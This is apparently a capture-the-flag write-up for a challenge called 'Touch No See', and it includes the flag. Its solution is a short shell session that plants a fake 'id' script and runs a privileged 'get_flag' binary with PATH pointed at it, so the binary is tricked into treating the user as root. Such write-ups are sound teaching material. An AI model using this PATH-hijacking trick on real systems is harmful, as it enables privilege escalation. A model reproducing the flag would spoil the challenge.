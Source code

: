 # Touch No See

## Description

Type the following command to connect to the challenge:
`nc <remote ip> <port>`

## Solution

```bash
user@8f1e40c8841f:/home/user$ printf '#!/bin/bash\n/bin/echo 0\n' > id
user@8f1e40c8841f:/home/user$ chmod +x id
user@8f1e40c8841f:/home/user$ PATH=/home/user ./get_flag
omu{Th3_PATH_to_hacking_stardom!}
```

## Learning Outcome

Learn about abusing `PATH` variable.
File permissions and stuff.

## Flag

`omu{Th3_PATH_to_hacking_stardom!}`